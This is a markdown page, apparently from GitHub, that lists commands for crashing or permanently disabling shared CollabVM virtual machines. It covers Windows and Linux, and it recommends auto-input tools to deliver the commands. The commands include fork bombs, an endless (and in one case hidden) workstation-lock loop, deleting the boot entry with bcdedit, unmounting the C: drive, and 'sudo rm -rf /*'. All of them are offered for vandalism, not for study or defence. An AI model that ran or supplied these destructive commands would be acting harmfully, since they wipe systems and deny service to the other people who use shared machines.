 # Commands that destroy CollabVM virtual machines

To crash the VM, you must execute one of them in the "Run" window or in the command line (cmd). To do this, it is strongly recommended to use auto-input programs.

## Windows

1. Classic fork bomb. May be closed.

```batch
cmd /c echo %0^|%0>1.bat&1.bat
```

2. Infinite blocking the windows user + pseudo fork bomb. Unclosable, only reboot helps.

```batch
cmd /k for /l %x in (1, 1, 9999999) do (start cmd /k rundll32 user32,LockWorkStation)
```

3. Hidden infinite blocking the windows user (not a forkbomb). Unclosable, Perfect way to block VM, only reboot helps.
```batch
cmd /c mshta vbscript:(CreateObject("WScript.Shell").Run("cmd /k for /l %x in (1, 1, 999999) do rundll32 user32,LockWorkStation """,0))(Window.Close)
```

4. Delete windows from bootloader and reboot (the system will no longer be able to boot. Run from cmd started as admin (RMB on cmd -> Run as admin).

```batch
cmd /k bcdedit /delete {current}&wmic os primary=1 reboot
```

5. Unmount primary C:\ drive. If you execute this command **as admin**, users cant interact with VM anymore.

```batch
mountvol c: /d
```

## Linux

You must run "Terminal" program and execute command there.

1. Needs no introduction

```bash
sudo rm -rf /*
```

2. Bash fork bomb. May not work due to fork restrictions.

```bash
:(){ :|:& };:
```

3. Perl fork bomb. May not work due to fork restrictions.

```bash
perl -e "fork while fork" &
```
